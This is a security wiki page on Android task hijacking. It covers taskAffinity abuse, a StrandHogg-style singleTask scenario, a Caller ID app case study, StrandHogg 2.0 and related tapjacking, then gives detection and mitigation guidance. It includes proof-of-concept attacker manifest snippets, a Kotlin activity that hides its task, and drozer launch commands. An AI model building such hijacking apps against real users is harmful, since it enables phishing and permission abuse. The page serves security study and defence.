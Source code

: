 # Android Task Hijacking


## Task, Back Stack and Foreground Activities

In Android, a **task** is essentially a set of activities that users interact with to complete a specific job, organized within a **back stack**. This stack orders activities based on when they were opened, with the most recent activity displayed at the top as the **foreground activity**. At any moment, only this activity is visible on the screen, making it part of the **foreground task**.

Here's a quick breakdown of activity transitions:

- **Activity 1** starts as the sole activity in the foreground.
- Launching **Activity 2** pushes **Activity 1** to the back stack, bringing **Activity 2** to the foreground.
- Starting **Activity 3** moves **Activity 1** and **Activity 2** further back in the stack, with **Activity 3** now in front.
- Closing **Activity 3** brings **Activity 2** back to the foreground, showcasing Android's streamlined task navigation mechanism.

![[<../../images/image (698).png>|https://developer.android.com/images/fundamentals/diagram_backstack.png]]

---

## Task affinity attacks

`taskAffinity` tells Android which task an `Activity` would *prefer* to belong to.  When two activities share the same affinity **Android is allowed to merge them inside the same back-stack even if they come from different APKs**.

If an attacker can place a malicious activity at the **root** of that stack, every time the victim opens the legitimate application the malicious UI will be the first thing the user sees – perfect for phishing or abusive permission requests.

The attack surface is wider than many developers think because **every activity automatically inherits an affinity equal to the application package name** (unless the developer sets `android:taskAffinity=""`).  Therefore *doing nothing* already leaves the app open to task hijacking on Android versions prior to 11.

### Classic "singleTask / StrandHogg" scenario

1. The attacker declares an activity with:
   ```xml
   <activity android:name=".EvilActivity"
             android:exported="true"
             android:taskAffinity="com.victim.package"
             android:launchMode="singleTask" >
       <intent-filter>
           
           
       </intent-filter>
   </activity>
   ```
2. The malicious app is started once so that the task (with the spoofed affinity) exists in recent tasks.
3. When the user later opens the real application, Android finds there is already a task whose **root affinity matches the package** and just brings that task to the foreground.
4. The attacker’s UI is shown first.

### Default–Affinity (no `singleTask`) variant  – Caller ID case study

The vulnerability reported in the **Caller ID (caller.id.phone.number.block)** application shows that the attack *also* works against the default `standard` launch mode:

1. Attacker application creates a fake root activity and immediately hides itself:
   ```kotlin
   class HackActivity : AppCompatActivity() {
       override fun onCreate(savedInstanceState: Bundle?) {
           super.onCreate(savedInstanceState)
           moveTaskToBack(true)   // keep the task in recents but out of sight
       }
   }
   ```
2. The manifest only needs to copy the victim package into `taskAffinity`:
   ```xml
   <activity android:name=".HackActivity"
             android:exported="true"
             android:taskAffinity="com.caller.id.phone.number.block" >
       <intent-filter>
           
           
       </intent-filter>
   </activity>
   ```
3. As soon as the user installs and opens the malicious app **once**, a task whose affinity equals the victim package exists (but sits in the background).
4. When the real Caller ID application is launched, Android re-uses that task and brings `HackActivity` to the foreground → phishing window/permission abuse.

> NOTE: Starting with **Android 11 (API 30)** the system does *not* place two packages that are not part of the same UID into the same task by default, mitigating this particular variant.  Older versions remain vulnerable.

---

### StrandHogg 2.0 (CVE-2020-0096) – Reflection-based task hijack

Google’s May-2020 security bulletin fixed a more advanced variant dubbed **StrandHogg 2.0**.  The exploit **does not rely on `taskAffinity` at all**; instead it uses *reflection* to dynamically insert the attacker’s activity at the top of *every* running task, completely bypassing the “shared-UID” restriction introduced by Android 11.

Key points:

* A zero-permission malicious app can, once opened, iterate over running tasks and call hidden APIs to **re-parent** its own activity into any task.
* Because the activity is inserted after run-time, neither `launchMode` nor static manifest analysis can detect the attack in advance.
* Patched by back-porting a check into **Android 8.0/8.1/9** (May 2020 SPL).  **Android 10 and later are not affected.**

Detection on pre-patched devices can be performed with `adb shell dumpsys activity activities` and watching for suspicious activities whose package name differs from the task’s *affinity*.

Mitigation for legacy devices is the same as classic Task Hijacking **plus** run-time verification (e.g. calling [`ActivityManager#getRunningTasks`](https://developer.android.com/reference/android/app/ActivityManager#getRunningTasks(int)) and validating your own package name).

---

## Detection & Exploitation checklist

1. **Static review** – Pull `AndroidManifest.xml` from the target APK and check that each `<activity>` (or the global `<application>` element) contains `android:taskAffinity=""` (empty) **or** a customised value.  Tools such as:
   ```bash
   # Using apkanalyzer (Android SDK)
   apkanalyzer manifest print app.apk | grep -i taskaffinity

   # Using AXMLPrinter2
   java -jar AXMLPrinter2.jar AndroidManifest.xml | grep taskAffinity
   ```
2. **Dynamic review** – On the device open the target app and list tasks:
   ```bash
   adb shell dumpsys activity activities | grep -A3 "TASK" | grep -E "Root|affinity"
   ```
   A task whose root affinity equals the victim package but whose top activity belongs to a *different* package is a red flag.
3. Craft a malicious app as described above, or use **[[https://github.com/WithSecureLabs/drozer|Drozer]]**:
   ```bash
   drozer console connect
   run app.activity.start --component com.victim/.MainActivity --action android.intent.action.MAIN
   run app.activity.info com.victim
   ```

---

## Mitigation

Developers should:

* Explicitly set `android:taskAffinity=""` at the `<application>` level (recommended) **or** give each activity a unique, private affinity.
* For highly sensitive screens, combine the above with `android:launchMode="singleInstance"` or modern [`setLaunchMode`](https://developer.android.com/reference/android/content/pm/ActivityInfo#launchMode) protections.
* Upgrade the app’s `targetSdkVersion` and enforce **Android 11** behavioural changes where tasks are not shared across packages by default.
* Target **Android 12 (API 31) or higher** so that the mandatory `android:exported` attribute forces developers to audit every externally-reachable component.
* Consider run-time self-defence: periodically query `ActivityTaskManager` to ensure that your top activity’s package matches your own.

---

## Related UI-Hijacking techniques

Task hijacking is often combined with or replaced by **tapjacking** (overlay-based UI deception).  The 2025 **TapTrap** research showed that fully transparent *animation-driven* activities can bypass the overlay-touch restrictions introduced in Android 12–14 and still trick users into granting dangerous permissions.  While TapTrap is not strictly *task* hijacking, the end-goal (phishing clicks) is identical – so modern assessments should check for both attack surfaces.

---

## References

- [[https://blog.dixitaditya.com/android-task-hijacking/|https://blog.dixitaditya.com/android-task-hijacking/]]
- [[https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html|https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html]]
- [[https://github.com/KMov-g/androidapps/blob/main/caller.id.phone.number.block.md|Android Manifest Misconfiguration Leading to Task Hijacking in Caller ID app]]
- [[https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06|https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06]]
- [[https://promon.io/resources/downloads/strandhogg-2-0-new-serious-android-vulnerability|Promon – StrandHogg 2.0 (CVE-2020-0096) technical write-up]]
- [[https://www.usenix.org/conference/usenixsecurity25/presentation/beer|USENIX 2025 – TapTrap: Animation-Driven Tapjacking on Android]]

